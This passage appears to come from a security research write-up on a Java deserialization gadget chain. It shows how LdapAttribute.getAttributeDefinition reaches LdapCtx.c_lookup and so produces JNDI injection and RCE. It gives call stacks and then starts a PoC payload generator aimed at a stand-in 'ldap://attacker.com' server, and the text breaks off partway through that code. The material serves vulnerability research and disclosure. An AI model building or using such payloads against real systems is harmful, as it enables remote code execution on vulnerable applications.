 When I found that the method of `HierMemDirCtx.lookup` could not perform JNDI injection, I temporarily gave up for a while and turned to analyze other gadget classes. But after I audited all the possible classes, I felt that there was nothing to left, so I had to look back and continue to bite the bullet and analyze. In the end, it turns out that to trigger JNDI injection, it is not necessary to use the `InitialContext.lookup` method as the entry point!

Taking the LDAP protocol as an example of JNDI injection, the call stack of the `InitialContext.lookup` method is:

```
javax.naming.InitialContext#lookup(java.lang.String)
-> com.sun.jndi.url.ldap.ldapURLContext#lookup(java.lang.String)
-> com.sun.jndi.toolkit.url.GenericURLContext#lookup(java.lang.String)
-> com.sun.jndi.toolkit.ctx.PartialCompositeContext#lookup(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.ComponentContext#p_lookup
-> com.sun.jndi.ldap.LdapCtx#c_lookup
-> ......
```

Therefore, if the `LdapCtx.c_lookup` method can be executed directly, and the JNDI address is controllable, the same vulnerability exploit effect as JNDI injection can be achieved.

Here, by constructing and using the payload, the call stack can be made as follows:

```
com.sun.jndi.ldap.LdapAttribute#getAttributeDefinition
-> javax.naming.directory.InitialDirContext#getSchema(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.PartialCompositeDirContext#getSchema(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.ComponentDirContext#p_getSchema
-> com.sun.jndi.toolkit.ctx.ComponentContext#p_resolveIntermediate
-> com.sun.jndi.toolkit.ctx.AtomicContext#c_resolveIntermediate_nns
-> com.sun.jndi.toolkit.ctx.ComponentContext#c_resolveIntermediate_nns
-> com.sun.jndi.ldap.LdapCtx#c_lookup
-> ......
```

Therefore, JNDI injection can be performed to implement RCE.


### PoC

PoC for generating the serialized payload:

```Java
import org.apache.commons.beanutils.BeanComparator;

import javax.naming.CompositeName;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.TreeMap;

public class PayloadGenerator {

    public static void main(String[] args) throws Exception {

        String ldapCtxUrl = "ldap://attacker.com:1389";
        
        Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
        Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
                new Class[] {String.class});
        ldapAttributeClazzConstructor.setAccessible(true);
        Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
                new Object[] {"name"});

        Field baseCtxUrlField = ldapAttributeClazz.getDeclaredField("baseCtxURL");
```